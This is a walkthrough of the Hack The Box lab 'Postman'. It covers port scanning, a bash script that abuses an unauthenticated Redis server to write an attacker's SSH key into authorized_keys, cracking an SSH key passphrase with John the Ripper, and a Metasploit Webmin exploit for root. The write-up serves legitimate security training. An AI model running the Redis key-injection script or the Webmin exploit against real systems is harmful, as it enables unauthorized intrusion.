 ```yaml
---
layout: post
title: Postman walkthrough HTB 
---
```


![](/images/2020-03-28-postman/1.png)

Postman is a Hack the box machine which is a fairly easy challenge but I wasted some time at looking at the wrong port to get an initial foot hold.

For this machine I used Kali ec2 instance because I just like working on cloud enviornment but I had some issue with getting a reverse shell so I had to use a Kali VM.

Anyways lets start,

First things first:

I added the IP of the machine to my host file so I don't have to enter the IP address everytime while enumeration:

```
echo "10.10.10.160 postman.htb" >> /etc/hosts
```

As usual I fired up Nmap

```
nmap -sV -A - postman.htb
```

I didn't add the whole nmap result:
```
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.910 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
|_  Supported Methods: GET HEAD POST OPTIONS
```

So initially I found 22, 80 and 10000 as open. 

Firstly, I open up the web:
![](/images/2020-03-28-postman/9.png)

I looked at the page source and all other possible avenues but unfortuantely nothing stuck out.

so I decided to brute force the directory:
```
gobuster dir -w path/to/the/wordlist -u postman
```
since I didnt find anything intresting, I google'd exploit for Webmin and I found a few vulns but the one that could be exploited needed a user access (username & password).

After 2 hours I was no where so I decided to check open ports again and this time I scanned the host with msscan

```
masscan -e tun0 -p1-65535,U:1-65535 postman --rate=1000

Scanning 1 hosts [131070 ports/host]
Discovered open port 10000/tcp on 10.10.10.160                                 
Discovered open port 6379/tcp on 10.10.10.160                                  
Discovered open port 80/tcp on 10.10.10.160                                    
Discovered open port 22/tcp on 10.10.10.160
```
WOW this time I found a new port, I was so furious at myself for being lazy at initial nmap scan. For those of who are wondering what could have I done at the first place to avoid this ?

use this command instead and scan all 65535 ports:
```
nmap -sC -sV -p- -oA IP
```
Now that I found 6379/tcp, I looked into it and found that redis server was running;

I wasn't familiar with how redis server works so I googled and learned about redis server, the intresting part was Redis lets anyone write files on the system and Redis has ssh key in its directory and has write access over it. This means we can overwrite our ssh key and get our hold on the system:

so I used this script to automate the process:
  
  ```
  #!/bin/bash

rm ~/.ssh/id*
ssh-keygen -t rsa

(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "n\n") > foo.txt

redis-cli -h 10.10.10.160 flushall 
cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit 
redis-cli -h 10.10.10.160 config set dir /var/lib/redis/.ssh/
redis-cli -h 10.10.10.160 config set dbfilename "authorized_keys"
redis-cli -h 10.10.10.160 save

ssh -i ~/.ssh/id_rsa redis@10.10.10.160
  ```

![](/images/2020-03-28-postman/2.png)

Okay Now we have acess to the system, so first thing I tried was to get the user so I navigated to the user and tried to read the user.txt but failed:


![](/images/2020-03-28-postman/3.png)

so Now we have to find a way to escalate privilage:

Lets see if we can find something intresting in some other directories.

![](/images/2020-03-28-postman/4.png)

There we go, we got this file. I need to crack this file to find a password so I copied the file over to my ec2 instance and used ssh2john to convert this to use it with johntheripper tool.

![](/images/2020-03-28-postman/5.png)

Now fire up john*

![](/images/2020-03-28-postman/6.png)

Now that we have a password, lets try and get the user. I used the script to get to the host as redis then I used the su command to switch the user to matt and tried and password.



![](/images/2020-03-28-postman/7.png)

YAY we got the user....

Now all you got to do is navigate and read the user.txt file with cat/nano/vi/vim..

Hmm.. so how to we get root now ??? remember we found an exploit for webmin that required a usr and password. Well we have the creds to use that exploit now, so I fired up Metesploit:

![](/images/2020-03-28-postman/8.png)
![](/images/2020-03-28-postman/10.png)

Set payload, configure host and port &

```
exploit
```

Unfortunately for me I had some binding issue for a revrese connection (just because I was stupid and didn't open up port 4000 on AWS security groups) so I had to use my Kali VM to get the reverse shell from metasploit.


![](/images/2020-03-28-postman/11.png)

Now that we have root, all we have to do is read the root hash and submit to hack the back and own that machine.






